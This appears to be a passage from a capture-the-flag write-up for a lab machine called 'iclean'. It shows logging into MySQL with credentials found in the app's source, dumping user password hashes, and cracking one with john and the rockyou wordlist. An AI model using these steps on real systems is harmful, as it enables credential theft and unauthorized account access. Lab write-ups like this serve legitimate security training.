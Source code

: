We can access the database via terminal with disclosed credentials and extract the password hash of user `consuela`:

```bash
www-data@iclean:/opt/app$ mysql -u iclean -p************ capiclean
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4819
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2a************************************************************** | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a************************************************************** | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

The hash is crackable, for example using `john`:

```bash
> john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**************** (?)     
1g 0:00:00:00 DONE (2024-04-28 17:48) 2.941g/s 11179Kp/s 11179Kc/s 11179KC/s sisqosgirl..shikimika
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```
